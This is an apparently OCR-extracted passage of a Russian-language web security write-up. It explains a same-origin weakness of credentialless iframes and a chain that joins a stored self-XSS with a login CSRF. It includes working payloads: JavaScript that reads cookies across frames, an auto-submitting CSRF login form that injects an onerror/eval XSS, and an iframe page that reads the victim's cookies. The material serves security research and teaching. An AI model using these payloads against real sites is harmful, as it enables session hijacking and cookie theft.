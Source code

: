 #  Credentialless same-origin issue

Но что же нам дает факт того, что credentialess iframe является same-origin, с обычным iframe?
Допустим у нас есть следующая страница:
```html
<iframe src="https://neplox.security/xss_page_url" width="20%" height="20%" credentialless></iframe>
<iframe src="https://neplox.security/"></iframe>
```
Факт в том что если `/xss`, выполнить следующий код:
```js
window.top[1].document.body.innerHTML = 'Hi from credentialess';
alert(window.top[1].document.cookie);
```
То получит доступ к оригинальным кукам, страницы:
![](./3.png)

# SELF-XSS + CSRF on login 
Допустим, вы нашли Stored SELF-XSS, один из реальных примеров на моей практике выглядел как-то так:
![](./4.png)

На домашней странице отоброжалась надпись `Welcome, username!`, где username не санитизировался, соотвественно туда можно было вставить любой XSS payload. То есть у нас имеется классический пример Self-XSS.

После этого стоит обратить внимание на форму `/login`, и если в ней будет отсутсвовать CSRF защита, тогда вы можете сделать следующее:
1. Сформировать классический CSRF login form
   ```html
   <html>
  <body>
    <form action="http://victim.domain/login" method="POST">
      <input type="hidden" name="username" value="attacker_username<img src=x onerror=eval(window.name)>" />
      <input type="hidden" name="password" value="Super_s@fe_password" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
2. Сформировать направить человека которого мы атакуем на следующую страницу:
   ```html
<iframe name="alert('Our cookie is: ' + document.cookie + '\nVictim cookie is: ' + window.top[1].document.cookie)" src="http://localhost:3004/" width="40%" height="500px" credentialless></iframe>
<iframe src="http://localhost:3004/" width="40%" height="500px"></iframe>
```
